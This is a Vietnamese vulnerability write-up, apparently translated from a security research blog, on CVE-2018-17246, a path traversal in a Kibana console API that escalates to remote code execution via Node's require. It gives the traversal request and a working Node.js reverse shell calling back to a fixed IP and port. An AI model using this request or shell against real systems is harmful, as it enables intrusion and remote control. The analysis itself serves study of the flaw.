






# CVE-2018-17246

---

(Translated from [cyberank.com](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/))

---

## Analysis vulnerability

- Lỗ hỏng xuất phát từ : 



****

- API này sẽ require các thư viện mà không có cơ chế kiểm tra dữ liệu đầu vào theo params `apis`



- Từ đây có thể khai thác lỗi `Path Travelsal`



- Tuy nhiên ở đây vì lí do ở method `api.asJSON` sẽ không trả về json nếu không đọc được object chúng ta truyền vào (lí do xảy ra error ở hình trên) .  Ở đây hông lẽ là `path traversal` blind ⁉🦆



- Để nâng cấp thêm lỗi này phải phân tích thêm hàm `require` của nodejs

  - Về cơ bản nó khá giống hàm `include` của `php`

  - `Module Require`:

    - Đây là 1 core module của nodejs do đó chỉ cần gọi lên và ko cần khai báo : `require('require')` 
    - Khi node gọi đến require : 
      1. Nó sẽ tìm đến đường dẫn của file import
      2. Sau đó nó sẽ xác định file type của file import
      3. Chuyển dữ liệu vào biến require
      4. Thực thi dữ liệu với code đã load
      5. Nó sẽ không load lại code khi gọi đến biến truyền vào 

    (tạm thời mình chỉ mới hiểu tới đây)

- Tóm gọn : Module `require` sẽ thực thi và trả về object mà module này export ra. Vậy từ đây chúng ta có thể kiếm 1 module nào thực hiện những process để nâng impact . (có thể tắt service , RCE....)

- Một số module :

> **docs_repo.js**



> **cli_plugin/cli.js**



- Ở đây có thể nâng cấp lên RCE nhưng cần phải có 1 file call backconnect trên server

---

## PoC RCE

1. Bằng cách kì diệu nào đó có 1 file js trên server
2. Call đến api ``/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../path/to/shell.js``

> **Node Revershell**

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "172.18.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

